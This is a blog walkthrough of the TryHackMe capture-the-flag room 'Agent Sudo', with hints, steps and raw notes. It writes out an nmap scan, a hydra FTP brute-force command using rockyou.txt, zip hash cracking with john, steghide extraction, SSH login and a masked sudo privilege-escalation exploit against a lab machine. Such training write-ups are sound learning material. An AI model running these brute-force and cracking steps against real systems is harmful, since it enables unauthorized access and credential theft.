 ```yaml
---
title: Agent Sudo -/ TryHackMe Walkthrough
author: Mr Ash
type: "post"
published: 2022-07-09
lastUpdated: 2022-11-05
url: "/agent-sudo/"
image: https://p146.p4.n0.cdn.getcloudapp.com/items/WnuDq4KN/00cd5204-7161-4728-ae1b-8552248e9747.jpg?v=40fdd0801164d7a95b5a5487f11cf83b
categories: Cyber
tags:
    - 100DaysOfHacking
    - TryHackMe
    - Capture The Flag
    - Walkthrough
---
```


Welcome back to another [TryHackMe](https://tryhackme.com/) room, the challenge today is [Agent Sudo](https://tryhackme.com/room/agentsudoctf).

No spoilers below within the hints, just some good ol’ fashion hints to help you out on your agent sudo journey. For more detail, with some spoilers, see the steps section, and for everything I did, see my notes. If you prefer a video walkthrough, well that’s linked below, and if you want my personal thoughts on the room, check out the reflection via the video.

*Disclaimer, there are spoilers for this room below, please use the hints if you do not want any steps spoiled. Room creator credit: [DesKel](https://tryhackme.com/p/DesKel).*

<!-- <figure class="wp-block-embed is-type-video is-provider-youtube wp-block-embed-youtube wp-embed-aspect-16-9 wp-has-aspect-ratio"><div class="wp-block-embed__wrapper"><iframe allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen="" frameborder="0" height="450" loading="lazy" src="https://www.youtube.com/embed/PYQ51M8qTbw?feature=oembed" title="Agent Sudo // TryHackMe Walkthrough" width="800"></iframe></div></figure><div id="hs-embed-container" style="position:relative;display:flex;width:100%;height:300px;"><div id="hs-embed-placeholder" style="position:absolute;top:0;bottom:0;left:0;right:0;margin:10px;overflow:auto;font-size: 14px !important">[ Agent Sudo // TryHackMe Walkthrough – powered by Happy Scribe](https://www.happyscribe.com/?utm_source=embed-player&utm_term=b764bacd7be54743bcb64bd390e2ee4a "Listen: Agent Sudo // TryHackMe Walkthrough was transcribed from audio to text using Happy Scribe")

</div><div class="hs-embed" data-hide_video="true" data-id="b764bacd7be54743bcb64bd390e2ee4a" data-private_text="true"></div><script>
var js=document.createElement('script');js.type='text/javascript';js.async=true;js.src='https://embed.happyscribe.co/main.js';document.head.appendChild(js);
</script></div><style type="text/css"> ._h1s512 { white-space: nowrap; } </style> -->

## Hints

Task 2 Enumerate

- How many open ports? `nmap` can show you.
- How you redirect yourself to a secret page? Read the note on `index.html`
- What is the agent name? Use the web dev tools to change `user-*****`

Task 3 Hash cracking and brute-force

- FTP password. Use `hydra` with `rockyou.txt`
- Zip file password. Use `binwalk` to *really* see the `png`, then `zip2jon`.
- steg password. Use `steghide` to *really* see the `jpg`.
- Who is the other agent (in full name)? `cat` your new `message.txt`
- SSH password. `base64 -d`

Task 4 Capture the user flag

- What is the user flag? Once in, simple `cat`
- What is the incident of the photo called? Use OSINT via bing.

<!-- <div class="elementor elementor-5483" data-elementor-id="5483" data-elementor-type="section"><div class="elementor-section-wrap"> <section class="elementor-section elementor-top-section elementor-element elementor-element-32d8c94 elementor-section-boxed elementor-section-height-default elementor-section-height-default" data-element_type="section" data-id="32d8c94" data-particle-mobile-disabled="false" data-particle_enable="false" data-settings="{"ekit_has_onepagescroll_dot":"yes"}"><div class="elementor-container elementor-column-gap-default"><div class="elementor-row"><div class="elementor-column elementor-col-100 elementor-top-column elementor-element elementor-element-5e7c56e" data-element_type="column" data-id="5e7c56e"><div class="elementor-column-wrap elementor-element-populated"><div class="elementor-widget-wrap"> <section class="elementor-section elementor-inner-section elementor-element elementor-element-fc64076 elementor-section-boxed elementor-section-height-default elementor-section-height-default" data-element_type="section" data-id="fc64076" data-particle-mobile-disabled="false" data-particle_enable="false" data-settings="{"ekit_has_onepagescroll_dot":"yes"}"><div class="elementor-container elementor-column-gap-no"><div class="elementor-row"><div class="elementor-column elementor-col-100 elementor-inner-column elementor-element elementor-element-f7d6b37" data-element_type="column" data-id="f7d6b37"><div class="elementor-column-wrap elementor-element-populated"><div class="elementor-widget-wrap"><div class="elementor-element elementor-element-4c75247 elementor-widget elementor-widget-text-editor" data-element_type="widget" data-id="4c75247" data-settings="{"ekit_we_effect_on":"none"}" data-widget_type="text-editor.default"><div class="elementor-widget-container"><div class="elementor-text-editor elementor-clearfix">Recent Posts

 </div> </div> </div><div class="elementor-element elementor-element-322ad34 elementor-widget elementor-widget-elementskit-post-list" data-element_type="widget" data-id="322ad34" data-settings="{"ekit_we_effect_on":"none"}" data-widget_type="elementskit-post-list.default"><div class="elementor-widget-container"><div class="ekit-wid-con">- [ <span class="elementor-icon-list-icon">  </span><div class="ekit_post_list_content_wraper"> <span class="elementor-icon-list-text">How To Fix TryHackMe VPN Not Working | Troubleshooting OpenVPN</span> </div> ](https://mrash.co/how-to-fix-tryhackme-vpn-not-working-troubleshooting-openvpn/)
- [ <span class="elementor-icon-list-icon">  </span><div class="ekit_post_list_content_wraper"> <span class="elementor-icon-list-text">Crack The Hash TryHackMe Walkthrough</span> </div> ](https://mrash.co/crack-the-hash-tryhackme-walkthrough/)
- [ <span class="elementor-icon-list-icon">  </span><div class="ekit_post_list_content_wraper"> <span class="elementor-icon-list-text">100 Days Of Hacking</span> </div> ](https://mrash.co/100daysofhacking/)
 
 </div> </div> </div> </div> </div> </div> </div> </div> </section> <section class="elementor-section elementor-inner-section elementor-element elementor-element-d91d33b elementor-section-boxed elementor-section-height-default elementor-section-height-default" data-element_type="section" data-id="d91d33b" data-particle-mobile-disabled="false" data-particle_enable="false" data-settings="{"ekit_has_onepagescroll_dot":"yes"}"><div class="elementor-container elementor-column-gap-no"><div class="elementor-row"><div class="elementor-column elementor-col-100 elementor-inner-column elementor-element elementor-element-6dee180" data-element_type="column" data-id="6dee180"><div class="elementor-column-wrap elementor-element-populated"><div class="elementor-widget-wrap"><div class="elementor-element elementor-element-7acfc36 elementor-widget elementor-widget-text-editor" data-element_type="widget" data-id="7acfc36" data-settings="{"ekit_we_effect_on":"none"}" data-widget_type="text-editor.default"><div class="elementor-widget-container"><div class="elementor-text-editor elementor-clearfix">Popular Posts

 </div> </div> </div><div class="elementor-element elementor-element-7b9396d elementor-widget elementor-widget-elementskit-post-list" data-element_type="widget" data-id="7b9396d" data-settings="{"ekit_we_effect_on":"none"}" data-widget_type="elementskit-post-list.default"><div class="elementor-widget-container"><div class="ekit-wid-con">- [ <span class="elementor-icon-list-icon">  </span><div class="ekit_post_list_content_wraper"> <span class="elementor-icon-list-text">OneNote to Notion - Moving Apps</span> </div> ](https://mrash.co/onenote-to-notion-moving-apps/)
- [ <span class="elementor-icon-list-icon">  </span><div class="ekit_post_list_content_wraper"> <span class="elementor-icon-list-text">100 Days Of Hacking</span> </div> ](https://mrash.co/100daysofhacking/)
- [ <span class="elementor-icon-list-icon">  </span><div class="ekit_post_list_content_wraper"> <span class="elementor-icon-list-text">Hackers Learning Path</span> </div> ](https://mrash.co/learning-path-for-beginner-hacker/)
 
 </div> </div> </div> </div> </div> </div> </div> </div> </section><div class="elementor-element elementor-element-2763e2a elementor-widget elementor-widget-text-editor" data-element_type="widget" data-id="2763e2a" data-settings="{"ekit_we_effect_on":"none"}" data-widget_type="text-editor.default"><div class="elementor-widget-container"><div class="elementor-text-editor elementor-clearfix">\*Shamless self-promotion, I know.

 </div> </div> </div> </div> </div> </div> </div> </div> </section> </div> </div> -->

## Task 5 Privilege escalation
- CVE number for the escalation. `sudo -*`
- What is the root flag? `cat /root/root.txt`
- (Bonus) Who is Agent R? see `root.txt`

## Steps

1. Task 2 Enumerate, as always, start by scanning the machine, I used `nmap -vv -A <ip>`. We can see ports 21, 22 and 80, so most likely we have a web server running, let’s confirm this.
2. Visithttp://&lt;ip&gt; to get the next clue, change the user-agent by going to Inspect (DevTools) &gt; Customise and control DevTools &gt; More Tools &gt; Network conditions, User agent. Here you can change the user-agent by disabling/unchecking Use browser default. Reload the page, and you’re done!
3. Task 3 Hash cracking and brute-force. Now that leads us back to port 21, ftp, so now armed with a username, let’s use brute force. Use hydra -t 32 -l \*\*\*\*\* -P /usr/share/wordlists/rockyou.txt -vV &lt;ip&gt; ftp against the target and you’ll be able to find the password, so then log in using ftp &lt;ip&gt;, and mget \* to copy all the files.
4. It’s time to examine what we’ve found, run file \* to show some basic info, but use binwalk to show hidden info within the files. Then binwalk -e cutie.png to pull out the data, again running file \* will help here with new files. Use zip2john 8702.zip &gt; 8702.hashes to extract the hash, then john 8702.hashes to crack it.
5. The new text file provides a cryptic message, we can decode this using echo \*\*\*\*\*\*\*\* | base64 -d. That’s the steg password, use `steghide extract -sf cute-alien.jpg -p ******` to gain SSH creds, then `ssh *****@<ip>`. Next up, Task 4 Capture the user flag.
6. Now copy the files over via `scp -r * *****@<ip>: .`, use a bit of OSINT and find the CVE. For more, use my notes below or hints above for help, enjoy!

## Notes

nmap: `nmap -vv -A <ip>`

```bash
Completed NSE at 02:52, 0.00s elapsed
Nmap scan report for 10.10.253.182
Host is up, received conn-refused (0.32s latency).
Scanned at 2022-07-06 02:51:25 EDT for 42s
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5hdrxDB30IcSGobuBxhwKJ8g+DJcUO5xzoaZP/vJBtWoSf4nWDqaqlJdEF0Vu7Sw7i0R3aHRKGc5mKmjRuhSEtuKKjKdZqzL3xNTI2cItmyKsMgZz+lbMnc3DouIHqlh748nQknD/28+RXREsNtQZtd0VmBZcY1TD0U4XJXPiwleilnsbwWA7pg26cAv9B7CcaqvMgldjSTdkT1QNgrx51g4IFxtMIFGeJDh2oJkfPcX6KDcYo6c9W1l+SCSivAQsJ1dXgA2bLFkG/wPaJaBgCzb8IOZOfxQjnIqBdUNFQPlwshX/nq26BMhNGKMENXJUpvUTshoJ/rFGgZ9Nj31r
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHdSVnnzMMv6VBLmga/Wpb94C9M2nOXyu36FCwzHtLB4S4lGXa2LzB5jqnAQa0ihI6IDtQUimgvooZCLNl6ob68=
|   256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOL3wRjJ5kmGs/hI4aXEwEndh81Pm/fvo8EvcpDHR5nt
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 02:52
Completed NSE at 02:52, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 02:52
Completed NSE at 02:52, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 02:52
Completed NSE at 02:52, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 42.85 seconds

```

Visit: `http://<ip>` Changed User-Agent \[[Link](https://www.searchenginejournal.com/change-user-agent/368448/)\], redirected: `http://<ip>/agent_C_attention.php`, Found name Agent C.

```bash
Attention *****,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R

```

Crack FTP: `hydra -t 32 -l ***** -P /usr/share/wordlists/rockyou.txt -vV <ip> ftp` \[[LINK](https://www.binarytides.com/crack-ftp-passwords-with-thc-hydra-tutorial/)\]

```bash
[21][ftp] host: <ip>  login: *****   ****password: *****

```

Logged into FTP `ftp <ip>`, ran `mget *` to get all the files.

Examine images: `binwalk`, extracted image data: `binwalk -e cutie.png`.

Installed `sudo apt install 7zip` \[[Link](https://ubuntuforums.org/showthread.php?t=1416364), [Link](https://super-unix.com/ubuntu/ubuntu-extracting-zip-file-fails-giving-error-need-pk-compat-v5-1/)\] `7z e 365.zlib`.

Cracking zip file \[[Link](https://dfir.science/2014/07/how-to-cracking-zip-and-rar-protected.html)\]: `zip2john 8702.zip > 8702.hashes`, `john 8702.hashes`

```bash
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
*****            ****(8702.zip/To_agentR.txt)     
1g 0:00:00:00 DONE 2/3 (2022-07-08 01:35) 2.222g/s 101044p/s 101044c/s 101044C/s 123456..ferrises
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

```

`cat To_agentR.txt`

```bash
Agent C,

We need to send the picture to **'********'** as soon as possible!

By,
Agent R

```

Finding hash value: `echo ******** | base64 -d`, `steghide extract -sf cute-alien.jpg -p ******`.

```bash
Hi *****,

Glad you find this message. Your login password is ****************

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
*****

```

Connect via SSH: `ssh *****@<ip>`, copy over image: `scp -r * *****@<ip>: .` \[[Link](https://youtu.be/gGe1cNgfHwE), [Link](https://www.freecodecamp.org/news/scp-linux-command-example-how-to-ssh-file-transfer-from-remote-to-local/)\].

Ran `sudo -*`, searched ‘exploit sudo \*\*\*\*\*\*\*\*\*\*\*\*’, found exploit `sudo ***** *********`

```bash
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
********************************

By,
****** a.k.a Agent R

```

{{<youtube PYQ51M8qTbw>}}

This is day 54 of [#100DaysOfHacking](https://mrashleyball.com/100daysofhacking/) on my [Hackers Learning Path](https://mrashleyball.com/learning-path-for-beginner-hacker/). [Subscribe](https://go.mrash.co/newsletter) for [CyberSec](https://mrashleyball.com/starting-out-in-cyber-security/) updates or [read](https://mrashleyball.com/blog) more, happy hacking, coding, and ‘learning.